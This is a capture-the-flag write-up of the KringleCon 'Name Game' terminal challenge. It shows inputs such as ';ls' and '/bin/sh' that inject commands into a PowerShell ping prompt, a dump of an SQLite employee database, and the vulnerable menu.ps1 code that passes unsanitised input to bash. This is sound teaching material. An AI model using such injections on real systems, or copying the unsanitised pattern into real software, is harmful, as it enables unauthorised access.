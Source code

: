 The Name Game
=============

Minty Candycane provides hints for :doc:`Question 2 </objectives/question2>` after you help her with this Cranberry Pi terminal challenge.

Terminal Challenge
------------------

.. image:: /images/namegameMOTD.png

Our Solution
------------

Step 1: Perform a command injection to start a new shell
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

After selecting option 2 the following appeared [#f1]_ :

.. code-block:: none

 Validating data store for employee onboard information.
 Enter address of server: 

We entered ``127.0.0.1`` and got the following output:

.. code-block:: none

 PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
 64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.042 ms
 64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.062 ms
 64 bytes from 127.0.0.1: icmp_seq=3 ttl=64 time=0.061 ms

 --- 127.0.0.1 ping statistics ---
 3 packets transmitted, 3 received, 0% packet loss, time 2042ms
 rtt min/avg/max/mdev = 0.042/0.055/0.062/0.009 ms
 onboard.db: SQLite 3.x database
 Press Enter to continue...:

This is the same as the output from the ``ping`` command, suggesting that we might be able to perform a command injection.

We observed that if you type ``;ls`` instead of an IP address, the output listed information about files just the same as using ``ls`` in a shell.

We tried starting a new shell by typing ``;/bin/bash``. This did not work and took as back into the employee onboarding application.

.. note::
 We later found out that the reason that we couldn't start a new bash shell using ``;/bin/bash`` was that one of the entries in the ``.bashrc`` file included ``/usr/bin/pwsh menu.ps1`` which starts the employee onboarding application.

We then tried starting a new shell by typing ``/bin/sh`` and successfully opened a shell.

Step 2: Retrieve Mr Chan's information from the employee onboarding application
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Running ``ls -a`` showed the following output::

 .  ..  .bash_logout  .bashrc  .cache  .local  menu.ps1  onboard.db  .profile  runtoanswer

Using the hints provided by Minty Candycane, and the output from the above ``ping`` command, we had a good idea that the ``onboard.db`` file was a SQLite database. We confirmed this by entering ``file onboard.db``.

.. note::
  We later found out that the employee onboarding application also uses the same ``/bin/bash -c "/usr/bin/file onboard.db"`` command during option 2. 

We then entered ``sqlite3 onboard.db .dump | grep 'Chan'`` to get:

.. code-block:: none

 INSERT INTO "onboard" VALUES(84,'Scott','Chan','48 Colorado Way',NULL,'Los Angeles','90067','4017533509','scottmchan90067@gmail.com');

Therefore Mr Chan's first name is Scott.

We then had to run the ``runtoanswer`` application to enter the correct inormation and complete the challenge.

Hints for the Terminal Challenge
--------------------------------

.. parsed-literal::
 **PowerShell Command Injection**
 From: Minty Candycane
 `PowerShell Call/& Operator <https://ss64.com/ps/call.html>`_

.. parsed-literal::
 **SQLite3 .dump'ing**
 From: Minty Candycane
 `SQLite3 Data Dump <https://www.digitalocean.com/community/questions/how-do-i-dump-an-sqlite-database>`_

Hints for KringleCon :doc:`Question 2 </objectives/question2>`
--------------------------------------------------------------

.. parsed-literal::
 **Finding Browsable Directories**
 From: Minty Candycane
 On a website, finding browsable directories is sometimes as simple as removing characters from the end of a URL.

.. parsed-literal::
 **Website Directory Browsing**
 From: Minty Candycane
 `Website Directory Browsing <https://portswigger.net/kb/issues/00600100_directory-listing>`_

Additional fun within the terminal
----------------------------------

An examination of the ``menu.ps1`` code showed the following:

.. code-block:: powershell 
 :emphasize-lines: 16,17,18

    do
    {
        Show-Menu
        $input = Read-Host 'Please make a selection'
        switch ($input)
        {
            '1' {
                cls
                Employee-Onboarding-Form
            } '2' {
                cls
                Write-Host "Validating data store for employee onboard information."
                $server = Read-Host 'Enter address of server'
                /bin/bash -c "/bin/ping -c 3 $server"
                /bin/bash -c "/usr/bin/file onboard.db"
            } '9' {
                /usr/bin/pwsh
                return
            } 'q' {
                return
            } default {
                Write-Host "Invalid entry."
            }
        }
        pause
    }
    until ($input -eq 'q')

Pressing the hidden option ``9`` opens a PowerShell shell.

.. rubric:: Extra Info
.. [#f1] After typing ``1`` we were taken to a registration page, which made us lose some time by trying to use that to solve the challenge. By typing ``q`` one cannot type anything more.
